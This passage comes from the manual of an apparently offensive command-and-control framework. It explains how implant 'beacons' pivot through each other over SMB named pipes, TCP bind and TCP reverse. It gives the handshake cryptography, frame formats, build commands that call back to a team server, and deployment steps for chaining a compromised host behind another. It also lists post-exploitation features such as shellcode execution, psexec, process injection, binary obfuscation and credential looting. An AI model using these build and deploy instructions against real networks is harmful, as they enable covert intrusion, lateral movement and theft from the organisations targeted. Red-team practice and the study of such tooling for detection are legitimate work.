The signature is produced with the child's own build-time ECDSA
signing key — the same key that signs identity and results. The
leading `tornadoc2-pivot-child-v2|` tag is a domain separator: it
prevents a signature produced for one role from verifying against
a payload produced for another, even if the two payloads later
share a similar layout. The parent looks up the child's public key
by fingerprint. If this is the first connection from that
fingerprint, the parent falls back to trust-on-first-use with a
session warning, matching the check-in model. On later connections,
the signature is verified against the pinned key.

The parent replies:

```
{"epk": "<base64 parent pivot public key>",
 "sig": "<base64 ECDSA over tornadoc2-pivot-parent-v2|fingerprint|child_epk|parent_epk|ts>",
 "ts":  1735689600}
```

The parent's signature is bound to the **child's** ephemeral public
key, taken verbatim from the hello the parent is responding to.
This closes an ack-replay window: a captured ack from a prior
handshake carries a signature over a different child ephemeral, so
a replay against a fresh hello fails verification. The child
enforces this by reconstructing the parent's signing payload with
its own `epk` — the same value it just sent — and refusing an ack
whose signature does not match.

Both sides now hold the same ECDH shared secret, derived from the
child's fresh ephemeral and the parent's static pivot key.
HKDF-SHA256 with the info string `tornadoc2-pivot-v2` expands the
shared secret to 64 bytes: 32 for `child_to_parent` and 32 for
`parent_to_child`.

The HKDF info string is versioned independently of the pivot
wire version. It is a domain separator on the key derivation, not a
protocol-negotiation field — a future change that alters only the
KDF (a different hash, a different expansion layout) can bump the
info string without a wire-version change, and a change that alters
only the framing can bump the wire version without touching the
KDF. Today both read `v2`; treat them as separate version axes when
reading the code.

The child contributes a fresh ephemeral key on every handshake;
the parent contributes its static pivot public key. This is ECDHE
on one side and ECDH on the other. The consequence is that the
pivot session has **no forward secrecy**: an attacker who recovers
the pivot private key from a captured parent binary can re-derive
the session keys for any past pivot session whose ciphertext and
child ephemeral public key they also captured.

The server-ECDH layer on the child's own C2 envelope is
independent of this and does provide forward secrecy across
check-ins; the pivot tunnel does not. Treat the pivot private key
as an engagement-lifetime secret and rotate it between
engagements.

### Every frame after the handshake

Every pivot frame on the wire is a **length-prefixed** record:

```
[ 4-byte big-endian length ][ body ]
```

The length prefix caps at **16 MiB**. A frame whose declared length
is zero or exceeds the cap is refused before allocation — the
receiver does not trust the length to be internally consistent with
what follows.

The body of the frame is the AEAD envelope:

```json
{"seq": 1,
 "iv":  "<base64 12-byte nonce>",
 "ct":  "<base64 AES-256-GCM ciphertext+tag>"}
```

The `seq` field is monotonically increasing per direction, starting
at 1. It, together with the wire version (`v2`), is included in the
AEAD additional data, so an attacker who edits either in flight
breaks the tag. The receiver expects exactly the next sequence
number; any gap or repeat is treated as a fatal protocol error and
the pivot session is closed. A `seqErr` value returned by the
decrypt path names the expected and received sequence numbers in the
parent's log line, so a repeated or skipped frame is diagnosable
from the server-side logs without a packet capture. Both SMB and TCP are
reliable in-order transports, so an out-of-order frame is either an
injection or a replay.

**The plaintext inside `ct` is a JSON envelope, not the raw C2
body.** The child sends:

```json
{"op": "beacon"|"tasks"|"results", "body": <C2 envelope>}
```

The parent decrypts the frame, reads `op`, and **maps the op to a
URL path** on the parent's own outbound request:

| `op` | Path sent to the team server |
|---|---|
| `beacon` | the parent's resolved `profile.beacon_path` |
| `tasks` | the parent's resolved `profile.tasks_path` |
| `results` | the parent's resolved `profile.results_path` |

A parent that declares no C2 profile uses the framework defaults
(`/beacon`, `/tasks`, `/results`). A parent built against a
profile that declares alternate paths uses those. This is the
concrete mechanism behind the paragraph below about the C2 profile
being selected on the **parent** build: the paths on the wire are
the parent's, not the child's.

The parent sets `X-Relay-Child: <child-fingerprint>` on the
forwarded request and includes `<C2 envelope>` as the request body
verbatim. The team server sees an ordinary check-in on the parent's
own transport, attributed to the child by fingerprint.

The parent returns the server's response to the child inside a
`{body}` envelope:

```json
{"body": <server response>, "error": null}
```

A relay-side error causes the parent to close the pipe rather than
sending an `error` field. The child sees EOF on its next read and
treats it as a transport failure — the same outcome an error frame
would produce, without inventing a message the pivot layer cannot
carry (an empty `iv`/`ct` is rejected by `DecodeFrame`).

**Consequence for C2 profiles on the child.** The child knows only
three op codes, not URL paths. A C2 profile's `beacon_path`,
`tasks_path`, and `results_path` do **not** travel through the
pivot — the child cannot express a profile-shaped path, because it
sends an op code and nothing else. The parent's own C2 profile
determines the outbound URL.

The child's C2 profile is not unused on a pivot build. The child
shapes its own request body with its profile's shaping template,
wire-encrypts the shaped body, and sends it as the pivot body. On
the response side the child wire-decrypts the server's body and
then unwraps it with the same profile. The parent forwards both
wire envelopes verbatim — it never touches the shape and never
sees the child's wire session key. This is why both the parent and
the child should be built with the same `--c2-profile`: the
parent's profile fixes the paths the server routes on, and the
child's profile fixes the shape the server renders through those
paths.

### SMB pivot (Windows)

Named pipes over the SMB redirector. The child calls
`CreateFileW(<resolved>)` where the argument is derived from
`--smb-pipe` by one of three rules:

- **bare name** — `tornado_relay_001` resolves to
  `\\.\pipe\tornado_relay_001`. Same-host pivot: the child and
  parent must run on the same Windows machine.
- **local path** — `\\.\pipe\tornado_relay_001` is used unchanged.
  Same-host pivot.
- **UNC path** — `\\WIN-SRV2\pipe\tornado_relay_001` is used
  unchanged. Cross-host pivot: the child opens a pipe on WIN-SRV2
  over SMB. WIN-SRV2 must be resolvable from the child (DNS,
  NetBIOS, hosts file, or an IP address in the UNC position) and
  reachable on TCP/445, and the child's process token must be able
  to authenticate to WIN-SRV2 with credentials the parent's default
  pipe DACL accepts.

On bash, single-quote the UNC form so the shell does not collapse
the leading double backslash. On cmd.exe, double every backslash.

The parent's `--smb-relay-pipe` is a bare name only — no path
prefix, no UNC form. `CreateNamedPipe` always creates a local pipe,
and Windows publishes it to the SMB layer automatically under
`\\<parent-host>\pipe\<name>`.

**The pipe name is validated twice, and both checks are fatal.**

1. **At build time.** The builder refuses an `smb_relay_pipe` that
   does not match `[A-Za-z0-9._-]+`, with an error naming the
   offending value. No binary is emitted.
2. **At parent startup.** `newSMBRelay` re-validates the name and
   returns an error if it fails. The listener is not started and
   the failure is printed to the parent's stderr.

The runtime check is a belt-and-braces on top of the build-time
check. Its purpose is to catch a name that arrived through a
non-builder path — a hand-crafted binary, a modified
`stageless/ldflags.go`, or a build that bypassed the builder. A
parent that starts listening on `\\.\pipe\invalid_pivot_pipe_name`
while its child dials a different name is a silent failure — the
parent checks in, the child never connects, and nothing in either
log names the mismatch. The two validation points make that
failure a loud one.

**Pipe configuration.** The parent creates each pipe instance with:

| Property | Value |
|---|---|
| Access | `PIPE_ACCESS_DUPLEX` |
| Type | `PIPE_TYPE_BYTE | PIPE_WAIT` |
| Max instances | 255 |
| Out buffer | 64 KiB |
| In buffer | 64 KiB |
| Default timeout | 0 ms (immediate) |

**One instance per child, and the next is opened immediately.** The
accept loop calls `ConnectNamedPipe` on the current instance, then
spawns a goroutine to serve the connection and immediately creates a
fresh instance for the next child. A second child connecting while
the first is being served does not wait; a third does not wait
either, up to the 255-instance ceiling. Each connection is served
independently and shares only the relay's `pinnedKeys` map under a
mutex.

**Child reconnect semantics.** The child's `roundTrip` retries the
entire request once if the pipe fails — `dial` reopens the pipe,
`ClientHandshake` runs again, and a new pivot session is established.
Two attempts total, then the child reports a transport failure to
the caller's retry loop. The parent sees a fresh handshake on the
reconnect; the TOFU pin is checked against the child's fingerprint
and accepted because it matches.

**Every pipe read and write carries a 30-second deadline.** The
child and the parent both open their pipe handles with
`FILE_FLAG_OVERLAPPED` and drive every `ReadFile` / `WriteFile`
through a `WaitForSingleObject` on an event with a 30-second
timeout. A parent that hangs on `ConnectNamedPipe`, or a child
that stops reading mid-frame, produces a bounded wait rather than
an indefinite block. The 30-second value is a named constant
(`pipeDeadline` in both `transport_smb_windows.go` and
`smb_relay_windows.go`) and is not configurable at runtime.

The deadline is a defensive bound, not an operational cadence. A
pipe operation that takes 30 seconds is a broken peer, not a slow
one; the pivot handshake and a normal round trip both complete in
single-digit milliseconds on any responsive network. The deadline
exists so a hung peer releases its goroutine and the transport can
reconnect on the next poll.

**Build the parent:**

```
beacon> beacon-build windows amd64 \
        --url https://c2.example.com:8881 \
        --smb-relay-pipe tornado_relay_001 \
        --pivot-key mtls_certs/pivot.pem
```

**Build the child:**

```
beacon> beacon-build windows amd64 \
        --transport smb \
        --smb-pipe tornado_relay_001 \
        --pivot-key mtls_certs/pivot.pem
```

The pipe names must match.

**Deploy.** Parent runs on a host with outbound HTTPS to the team
server. Child runs on a host with SMB reachability to the parent —
same domain, same workgroup with explicit credentials, or a host
trust relationship.

**Observe.** The parent appears in `beacons` as `#1001`. Moments
later, the child appears as `#1002`. Both are normal beacons from
the operator's perspective.

### TCP bind pivot

A plain TCP listener on the child; a dial-out from the parent. The
parent re-dials every 5 seconds whenever the connection breaks.

**Build the child first** (you need the token for the parent):

```
beacon> beacon-build linux amd64 --transport tcp \
        --tcp-bind 0.0.0.0:4444 \
        --tcp-token-gen \
        --pivot-key mtls_certs/pivot.pem
generated tcp_bind_token: 8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c...
```

Copy the token.

**Build the parent:**

```
beacon> beacon-build linux amd64 \
        --url https://c2.example.com:8881 \
        --tcp-relay 10.0.0.5:4444 \
        --tcp-relay-token 8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c... \
        --pivot-key mtls_certs/pivot.pem
```

The `--tcp-relay` address must be the child's listener as reachable
**from the parent**.

**Deploy.** Child opens a TCP listener and waits. Parent dials out,
presents the token, completes the pivot handshake, and carries frames.

**Verify on the child:**

```bash
ss -tlnp | grep 4444
# LISTEN 0 4096 0.0.0.0:4444 ... beacon
```

The listener is opened lazily, on the child's first check-in
attempt. Running `ss` immediately after the process starts shows
nothing; the port appears once the agent's run loop has called the
transport for the first time. The practical effect is the same —
the port is up by the time any real work begins — but a check
that fires before the initial sleep has elapsed sees a false
negative.

**Verify on the parent** (with `--verbose`):

```
[beacon] tcp pivot: dialing 10.0.0.5:4444
[beacon] tcp pivot: connected to 10.0.0.5:4444
```

#### Connection model

**One parent at a time.** The child accepts exactly one connection
and serves it until the connection breaks. A second parent that
dials while the first is connected has its TCP handshake completed
by the kernel — the connection sits in the listener's accept
backlog — but the child does not call `Accept()` again until the
current connection is torn down. If the first parent disconnects,
the next task poll calls `Accept()` and picks up the queued
connection.

The upshot is that the child is a one-to-one pairing, not a
server. Two parents cannot share one TCP bind child concurrently;
that requires two separate children on two different ports.

#### Wire format, layer by layer

The TCP bind wire carries three layers in order:

**1. Auth frame — raw length-prefixed bytes.** The parent's first
bytes on the wire are:

```
[ 4-byte big-endian length N ][ N bytes of the raw token ]
```

`N` is the byte length of the hex-decoded token, not the hex string.
A 64-hex-character `--tcp-token` decodes to 32 bytes, so the wire
frame is 36 bytes total. The child caps `N` at 1024 bytes and
refuses anything larger before reading the token body — the cap
exists so a hostile peer cannot make the child allocate an arbitrary
buffer for the first frame.

The comparison is `subtle.ConstantTimeCompare` against the child's
own embedded bytes. A mismatch increments a per-child failure
counter; the third mismatch closes the listener permanently for the
life of the process. A match resets the counter to zero.

**2. Pivot handshake — pivot frames.** Immediately after the auth
frame, the normal pivot handshake runs: the child sends the handshake
frame (fingerprint, public key, ephemeral key, signature), the parent
verifies and responds, both sides derive the shared secrets. This is
the same handshake SMB uses; the framing underneath is TCP instead
of a named pipe.

**3. Session frames — length-prefixed AEAD envelopes.** After the
handshake, every frame is a length-prefixed record with the same
structure as SMB:

```
[ 4-byte big-endian length ][ {seq, iv, ct} ]
```

The 16 MiB frame cap and the sequence-number rule from the SMB
section apply identically. The plaintext inside `ct` is the same
`{"op": ..., "body": ...}` envelope the SMB side uses — op codes
`beacon`/`tasks`/`results` for the three endpoint roles, and the
child's C2 envelope riding inside `body` opaquely.

#### Timing

The transport has five distinct timeouts, all tuned for a
WAN-adjacent deployment:

| Stage | Timeout | Effect |
|---|---|---|
| Child: `Accept()` | 30 s | How long a single `acceptOne` call waits for a parent |
| Child: auth token read | 10 s | How long the child waits for the parent's first frame |
| Child: session frame read/write | 60 s | Per-frame deadline during the active session |
| Parent: dial | 15 s | How long the parent waits for TCP connect |
| Parent: session frame read | 90 s | Per-frame deadline on the parent's side |
| Parent: session frame write | 30 s | Per-frame deadline on the parent's side |
| Parent: reconnect delay | 5 s | Time between `serveOnce` returns and the next dial attempt |

**The child's 30-second accept budget affects poll cadence when the
parent is down.** When no connection is active, the child's next
task poll blocks up to 30 seconds inside `Accept()`. A timeout is
treated as an ordinary poll failure: the poll returns, the beacon
sleeps its configured interval, and the next poll attempts `Accept()`
again with a fresh 30-second budget. A beacon whose parent is down
for a long window therefore spends roughly `30s + sleep_interval`
per poll cycle, offset from the configured cadence by the accept
budget. This is not an error condition — it is the mechanism that
lets a child stay dormant until a parent arrives.

**The parent closes on any error.** Every error path in the parent's
`serveOnce` — a bad token, a bad frame, a decrypt failure, an
unknown op code, a relay error — closes the TCP connection and
returns. The parent's outer loop then waits 5 seconds and dials
again. There is no retry-within-a-session: a protocol error is
fatal to the connection, and the child will see EOF on its next
read and treat it as a transport failure. This matches the strict
"any gap or repeat is a fatal protocol error" rule from the frame
sequence description — both sides refuse to proceed past a
corrupted session.

### TCP reverse pivot

The inverse of TCP bind. The **parent** opens a TCP listener; the
**child** dials out. Use when the child can reach the parent's
network but the parent cannot reach the child — a common shape on
segmented networks where a jump host has bidirectional access but
the parent sits behind a NAT or firewall.

**Build the parent first** (it generates the token the child needs):

```
beacon> beacon-build linux amd64 \
        --url https://c2.example.com:8881 \
        --tcp-rev-listen 0.0.0.0:4444 \
        --tcp-rev-token-gen \
        --pivot-key mtls_certs/pivot.pem
generated tcp_rev_token: 8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c...
```

Copy the token.

**Build the child:**

```
beacon> beacon-build linux amd64 --transport tcprev \
        --tcp-rev-target 10.0.0.5:4444 \
        --tcp-rev-token 8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c... \
        --pivot-key mtls_certs/pivot.pem
```

The `--tcp-rev-target` address must be the parent's listener as
reachable **from the child**.

**Deploy.** Parent opens a TCP listener and waits. Child dials out,
presents the token, completes the pivot handshake, and carries
frames. The parent's listener is opened lazily, on its first
relay-attempt — the same lazy-open model the child uses in the
bind direction.

**Verify on the parent** (with `--verbose`):

```
[beacon] tcp reverse pivot: listening on 0.0.0.0:4444
[beacon] tcp reverse pivot: pinned child e6f18186 (TOFU)
[beacon] tcp reverse pivot: child e6f18186 connected from 10.0.0.42:51004
```

**Verify on the child** (with `--verbose`):

```
[beacon] tcp reverse: connected to 10.0.0.5:4444
```

#### Wire format and handshake

Byte-for-byte identical to TCP bind. The auth frame is a 4-byte
big-endian length followed by the raw hex-decoded token; the pivot
handshake is a `pivot.ClientHandshake` from the child's side and a
`pivot.ParentVerifyAndRespond` from the parent's; session frames are
length-prefixed AEAD envelopes with the same `{seq, iv, ct}` shape
and the same 16 MiB cap. The direction of the TCP dial is the only
difference — every other layer is the same code.

#### Connection model

The parent accepts one child at a time per listen socket, but is not
limited to one child overall: each accepted connection is served in
its own goroutine, and a new `Accept()` is issued immediately. Up to
4096 distinct child fingerprints are accepted over the lifetime of
the parent process — the same TOFU pin cap the SMB relay and the TCP
bind relay carry. A second child that dials while the first is
active is accepted and served in parallel.

The child's `roundTrip` retries once on failure: a fresh TCP dial,
a fresh token frame, a fresh pivot handshake. Two attempts total,
then the child reports a transport failure to the caller's retry
loop. The parent sees a fresh handshake on the reconnect; the TOFU
pin matches the child's fingerprint and is accepted.

#### Timing

| Stage | Timeout |
|---|---|
| Child: TCP dial | 15 s |
| Child: auth frame write | 10 s |
| Child: session frame read/write | 60 s |
| Parent: session frame read | 90 s |
| Parent: session frame write | 30 s |

The parent has no reconnect loop — it is the listener, not the
dialer. If the child disconnects, the parent returns to `Accept()`
and waits for the next connection.

#### When to prefer `tcprev` over `tcp`

`tcp` (bind) and `tcprev` are mirror images. The choice is dictated
by the direction of reachability:

- **Bind**: the parent can reach a TCP port on the child.
- **Reverse**: the child can reach a TCP port on the parent.

On a flat network where both directions work, either is fine;
`tcp` uses less child-side code (no outbound-dial management) and
is marginally simpler. On a segmented network, the direction of
permitted traffic decides.

### Authentication

- **SMB.** OS-level access control on the named pipe. The pipe is
  created with the **default security descriptor** — the framework
  does not set a custom DACL. Windows therefore admits any process
  that can reach the pipe's host over SMB with credentials the
  host's default policy accepts. In a domain this means any
  authenticated domain user who can reach the parent's host; on a
  standalone host it means the local `Administrators` and
  `Authenticated Users` groups, whichever the host policy grants
  pipe access. The pivot session's own AEAD layer and the child's
  identity signature are what stop a wrong-credentialed client from
  being trusted as a legitimate child — but they do not stop one
  from reaching the pipe and forcing a handshake. The parent's
  TOFU pin by fingerprint refuses a mismatched key on second
  contact, which is what closes the impersonation path after the
  first legitimate check-in.
- **TCP bind.** A pre-shared token embedded in the child at build
  time. The parent presents it as its first bytes on the wire,
  **before** the pivot handshake and before any pivot frame: a
  4-byte big-endian length followed by the raw hex-decoded bytes of
  the token. A 64-hex-character `--tcp-token` decodes to 32 bytes,
  so the auth frame is 36 bytes. The child caps the length field at
  1024 bytes and refuses a larger value before reading the token
  body. The comparison is `subtle.ConstantTimeCompare` against the
  child's own embedded bytes. A mismatch increments a per-child
  failure counter; the third mismatch closes the listener
  permanently for the life of the process. A match resets the
  counter to zero.

- **TCP reverse.** The same token scheme, mirrored. The child
  presents the token as its first bytes on the wire; the parent
  verifies with `subtle.ConstantTimeCompare` against its own
  embedded bytes. A mismatch closes the connection immediately and
  the parent returns to `Accept()`; there is no per-child failure
  counter in the reverse direction, because the parent is the
  long-lived side and a persistent counter would let any peer on
  the network disable the listener with three bad attempts. The
  child is the one that would have to redeploy to recover from a
  permanent lockout, and on the reverse direction that recovery is
  not always possible — a segmented network where the child cannot
  be reached from the operator side. Letting the parent tolerate
  repeated bad attempts is the safer trade.

  **The parent distinguishes an empty token from a malformed one.**
  `hex.DecodeString("")` returns a nil slice with a nil error; a
  naive wrapper collapses that case into an opaque
  `bad token: %!w(<nil>)` and fails every `errors.Is` /
  `errors.As` check downstream. The parent checks for the empty
  case, the invalid-hex case, and the zero-length-decode case
  separately and names each in its error. This matters because an
  operator who omitted `tcp_relay_token` from the build config gets
  a clear `tcp pivot: relay token is empty` at first dial, not a
  wrap-nil chain that hides the root cause.

  The three-failure lockout has a second edge that the anti-brute-
  force framing does not make obvious: any TCP peer that can reach
  the child's listener can permanently disable it by opening three
  connections and sending an invalid token. There is no rate limit
  on the accept path, and no fallback transport once the listener
  is closed. On a segment where the child's port is reachable from
  untrusted hosts, treat the TCP bind transport as a single-shot
  deployment — if the listener is disabled, the only recovery is
  redeploying the child.

- **Pivot keypair.** The parent's pivot private key authenticates
  the parent to the child. The child's identity signature (over
  the handshake fingerprint, epk, and timestamp) authenticates
  the child to the parent. The two are independent.

  **The parent's TOFU pin table is capped at 4096 entries.** The
  map is in-memory and never pruned — a long-lived parent can see
  thousands of distinct child fingerprints over the course of an
  engagement, and an unbounded map is an unbounded memory leak.
  The cap is deliberately far above any realistic deployment; a
  parent that reaches it is either the victim of a fingerprint
  flood or is being used in a way the framework was not designed
  for. When the cap fires, the parent refuses the new fingerprint
  with a specific error and logs the refusal; existing pins are
  unaffected. The SMB relay and the TCP relay each carry their
  own pin table with the same cap.

### Wire encryption and pivoted children

**Wire encryption is allowed on a pivoted child.** The pivot session
is independent of the server ECDH session; the child's C2 envelope is
carried inside the pivot tunnel and is not visible to the parent. A
child built with `--mtls` and server ECDH, or just server ECDH,
encrypts its C2 body as usual; the parent forwards the ciphertext
without inspecting it.

The parent learns the child's identity from the AEAD-protected pivot
handshake, not from the C2 body, so there is no need to strip the
child's wire encryption. Operators who previously built children
without wire encryption because of the transparent-relay restriction
can now enable it.

The same model applies to all three pivot transports. A child
reached over SMB, over a TCP bind listener, or over a TCP reverse
listener carries its wire envelope inside the pivot session
identically; the transport choice affects only which side dials,
not what travels on the wire.

**Plaintext responses on a pivot hop are forwarded, not failed.** The
pivot transports call an `IsEnvelope` guard before invoking the
server-ECDH decrypt path. A response that is not a server-ECDH
envelope — a plaintext build, an error response the server sent
before it reached the envelope layer, or a proxy-injected body — is
forwarded to the child verbatim. Without the guard, an otherwise
functional pivot session treats a plaintext response as a
decryption failure, drops the frame, and reports a transport error
to the child. The guard is on all three pivot transports: SMB, TCP
bind, and TCP reverse.

### Shaping through a pivot

The child's C2 body is shaped and encrypted in a fixed order
that the parent cannot change:

1. The child marshals its request (check-in, tasks, or
   results) into plain JSON.
2. The child wraps the JSON in its C2 profile's shaping
   template.
3. The child encrypts the shaped body inside its own wire
   envelope.
4. The child sends the wire envelope inside a pivot frame.

The parent receives the pivot frame, opens the pivot session,
and forwards the wire envelope verbatim to the team server,
tagged with `X-Relay-Child`. The server decrypts the child's
wire envelope with the child's session key, unshapes the body,
processes the request, shapes the response, re-encrypts it with
the child's session key, and returns the result. The parent
forwards that second wire envelope back to the child verbatim.
The child decrypts and unshapes.

The parent never sees a shaped body and never sees a plaintext
C2 request. Both are inside the child's wire envelope, and the
parent does not hold the child's wire session key.

### What works through a pivot

Everything. From the operator console's perspective, a pivoted child
is indistinguishable from a directly-connected beacon.

| Operation | Works because |
|---|---|
| File transfer (`upload`/`download`) | Chunks are tasks with base64 bodies; the pivot session is a byte tunnel |
| `execute-assembly` | Shellcode is base64 in the task arg |
| `bof` | COFF is base64 in the task arg |
| `extension load` | WASM module is base64 in the task arg |
| `pyexec`/`psexec`/`shexec` | Script source is base64 in the task arg |
| `socks start` | Pivot task is a normal task; SOCKS traffic flows through the *server-side* SOCKS pivot listener, not the beacon-to-beacon pivot session. The two are distinct systems that happen to share a name. |
| `schedule add` | Server-side; no special handling |
| All three pivot transports | SMB, TCP bind, and TCP reverse present the same session to the engine; a child reached by any of them is indistinguishable from a directly-connected beacon |
| Shaped responses | The child shapes its own C2 body with the profile it was built against, then wraps the shaped body in its own wire envelope. The parent forwards both the child's and the server's wire envelopes verbatim and never touches the shape. See [Pivot Transports › Shaping through a pivot](#shaping-through-a-pivot) |

### Latency

The parent's pivot listener runs in a separate goroutine from the
parent's own polling loop. The parent's sleep interval does **not**
add latency to child traffic. The child's own sleep interval is the
only gate.

A parent on `sleep 60` can still forward child traffic every 100 ms
if the child is on `sleep 0`.

**TCP adds a reconnect delay on top of the sleep interval.** When
the child-to-parent TCP connection is broken, the parent's outer
loop waits 5 seconds before dialing again. During that window the
child's next task poll calls `Accept()` and waits up to 30 seconds
for the parent to arrive. A parent that reconnects within 35 seconds
of a break is caught by the child's first post-break `Accept()`
call and the child never sees a timeout; a slower reconnect produces
one failed poll cycle before the child resumes.

**SMB has no equivalent reconnect delay on the child side** — the
pipe is opened lazily by the child's `dial()` whenever a request
needs a connection, and the OS-level SMB redirector handles the
reconnect. A brief SMB outage between child and parent is invisible
to the child's poll cadence; a brief TCP outage between child and
parent adds up to 5 seconds of reconnect delay plus the child's
30-second accept budget.

**TCP reverse is the inverse shape.** The parent is the listener
and the child is the dialer. The parent's `Accept()` loop blocks
until a child connects; when one does, it is served in its own
goroutine and a fresh `Accept()` is issued immediately, so multiple
children can be served in parallel. The child's retry model is the
same as TCP bind's child-side reconnect — one fresh dial, one fresh
token frame, one fresh handshake, then a transport failure if it
still cannot connect. The timing values match the TCP bind section
above; see [TCP reverse pivot](#tcp-reverse-pivot) for the exact
deadlines.

### Backward compatibility

The pivot model **replaces** the transparent relay. A child built for
the old relay will not work against a new parent: the old child sends
a plaintext check-in body and expects the parent to extract the
fingerprint from it; the new parent expects a pivot handshake. There
is no negotiated fallback.

TCP reverse is a **new transport**, not a change to TCP bind. The
`tcp` and `tcprev` transports share the same pivot wire format but
different transport-mode strings, different build flags, and
different roles. A `tcp` child cannot connect to a `tcprev` parent:
the `tcp` child listens, the `tcprev` parent listens, and neither
will dial. Rebuild with the matching transport on both sides before
deploying.

The wire protocol carries an explicit version in the handshake's
`pivot` field. The current version is `v2`. The `v1` format — an
earlier release of this model — is refused at the parent with
`pivot: peer sent version "v1"`. The pre-pivot `relay/v1` framing
is refused as well.

**Operators must rebuild both parent and child whenever the pivot
wire version changes.** A mixed `v1` / `v2` deployment does not
work: the child hello is signed over a different payload than a
`v1` parent expects, and the ack is signed over a payload a `v1`
child cannot reconstruct. There is no negotiated downgrade.

### Deploying a pivot

Step-by-step for the SMB case. TCP bind and TCP reverse follow the
same pattern with the flags below:

| Transport | Parent flag | Child flag |
|---|---|---|
| SMB | `--smb-relay-pipe <name>` | `--transport smb --smb-pipe <name>` |
| TCP bind | `--tcp-relay <host:port>` | `--transport tcp --tcp-bind <addr>` |
| TCP reverse | `--tcp-rev-listen <addr>` | `--transport tcprev --tcp-rev-target <host:port>` |

In every case the parent and child must both be built with the same
`--pivot-key mtls_certs/pivot.pem`, and the token on the parent must
match the token on the child.

1. **Generate the pivot keypair.** `beacon-build --pivot-key-gen`
   writes `mtls_certs/pivot.pem`. Store it on the team server's encrypted
   volume; treat the private half as a long-lived secret.
2. **Build the parent.** `beacon-build windows amd64 --url <https-url>
   --smb-relay-pipe <name> --pivot-key mtls_certs/pivot.pem`
3. **Build the child.** For a same-host pivot:
   `beacon-build windows amd64 --transport smb
   --smb-pipe <name> --pivot-key mtls_certs/pivot.pem`. For a
   cross-host pivot, replace `<name>` with the parent's UNC path:
   `--smb-pipe '\\WIN-SRV2\pipe\<name>'`. The single quotes are
   required on bash so the shell does not collapse the leading
   double backslash.
4. **Deploy the parent first.** It needs to be up before the child
   starts retrying.
5. **Deploy the child.** It dials the pipe, completes the pivot
   handshake, checks in.
6. **Wait.** On the first check-in, the console prints two lines —
   one for the parent, one for the child.
7. **Operate normally.** `use <child-id>`, then any verb.

---

## Requirements & Installation

**Team server machine (runs the handler):**

- Python 3.7 or later
- OpenSSL (for automatic TLS and mTLS certificate generation)
- Git (optional; needed for `git status` / `git log` before a build)
- `flask` (`pip install flask`) — HTTP listener
- `dnslib` (`pip install dnslib`) — DNS transport
- `cryptography` (`pip install cryptography`) — ECDSA signing and
  ECDH wire encryption
- `aioquic` (`pip install aioquic`) — QUIC / HTTP/3 transport. Pulls
  in a compiled extension; the QUIC listener refuses to start without
  it and leaves the other transports running
- `simple-websocket` (`pip install simple-websocket`) — WebSocket
  transport. The WebSocket listener refuses to start without it and
  leaves the other transports running
- `pyroute2` (`pip install pyroute2`) — WireGuard transport. The
  WireGuard listener refuses to start without it. Requires the
  `wireguard` kernel module to be loaded and `CAP_NET_ADMIN` on the
  Python process; run the handler as root or
  `setcap cap_net_admin+ep $(which python3)`
- **`wireguard-tools`** — the `wg` command is used once on first
  launch to generate the server keypair. Not required at runtime
  after that; if the key file at `.keys/wireguard/server.key` is
  pre-generated, the handler starts without the tool present
- **Go toolchain 1.24+** — compiles agents locally and for remote
  operators

**Operator workstation (runs the client):**

- Python 3.7 or later
- No Go toolchain required — remote builds happen on the server
- The remote client does not need Donut, OpenSSL, `aioquic`, or any
  other build tooling. It talks to the team server over mTLS. The
  build wizard reads the QUIC listener's port from the server's
  `/identify` response when it needs to default a QUIC callback URL.
- **PySide6** — required only for `--gui`. The CLI does not import
  it. Install with `pip install PySide6`; the wheel bundles the Qt
  runtime, so no system Qt packages are needed on macOS or
  Windows. On Linux the GUI runs on X11 and Wayland; the platform
  is selected automatically from `WAYLAND_DISPLAY` and `DISPLAY`
  at startup — see [GUI Operator Console › Platform
  selection](#platform-selection). The `xcb` plugin loads the
  host's `libGL`, `libEGL`, `libxkbcommon-x11`, and the `libxcb-*`
  family; the `wayland` plugin loads `libwayland-client0`,
  `libwayland-cursor0`, `libwayland-egl1`, and `qt6-wayland`.
  `install-deps-client.sh` autodetects the current session and
  installs the matching set on Debian-, RHEL-, and Arch-derived
  systems; `--x11`, `--wayland`, and `--qt-libs both` override the
  detection, and `--no-gui` skips both the GUI and the runtime
  libraries. The GUI exits with a clear `qt.qpa.plugin: Could not
  load the Qt platform plugin "xcb"` (or the equivalent `wayland`
  message) when they are absent. A headless host can still import
  PySide6 for a smoke test with `QT_QPA_PLATFORM=offscreen`.

> **Werkzeug is required, not optional.** The operator listener reads
> the peer certificate from `request.environ['werkzeug.socket']`, which
> is a werkzeug-specific extension to the WSGI environ dict. Running
> the handler under gunicorn, uwsgi, or any other WSGI server will
> break mTLS client authentication — the listener will see every
> request as coming from an anonymous client. The beacon listener has
> the same constraint.
>
> The built-in werkzeug server is what ships with the handler. It is
> not a production-grade server, but it is the only one that exposes
> the peer certificate the way the authentication gate requires.
> Put it behind a redirector if you need TLS termination or rate
> limiting at the edge.

**Launching the client.** Two frontends ship in the same binary.
The CLI is the default:

    python beacon-client.py -c alice.cfg

The PySide6 GUI is opt-in with `--gui`:

    python beacon-client.py -c alice.cfg --gui

Both frontends share the same `Client` instance and the same
`_cmd_*` dispatch table. Every operator command — `beacons`,
`use`, `chat`, `creds`, `loot`, `deadman`, `killall`, the native
verbs, the whole lot — is routed through the identical code path
the other frontend uses. The GUI is a presentation layer only:
it swaps `sys.stdout`, `input()`, and `getpass.getpass()` for a
text widget, a modal dialog, and the in-window chat bar. Nothing
protocol-level lives in either frontend.

**Optional:**

- **`Donut`** — required for `--format shellcode` builds, the
  `execute-assembly` command, and `inject: true` on a Windows
  build. Download from
  [TheWover/donut](https://github.com/TheWover/donut/releases) and
  place on `PATH`, or drop a binary at `beacon/bin/donut`.
- **`beacon/bin/inject_linux_stub.bin`** — a vendored x86-64 ELF
  loader used as the second-pass payload on `inject: true` Linux
  builds. Committed to the tree; no installation step. When absent,
  the builder prints a warning and produces a binary that supports
  `migrate --self` only. See [Migration](#migration) for the
  contract the stub must satisfy.
- **`garble`** — control-flow obfuscation (used by `opsec` and
  `paranoid` profiles). Installed automatically by
  `install-go-build.sh` at a pinned version; the manual equivalent
  is `go install mvdan.cc/garble@v0.17.0`.
- **`UPX`** — binary packing (used by `paranoid`).
- **`rustup` + `wasm32-unknown-unknown` target** — building WASM
  extensions.
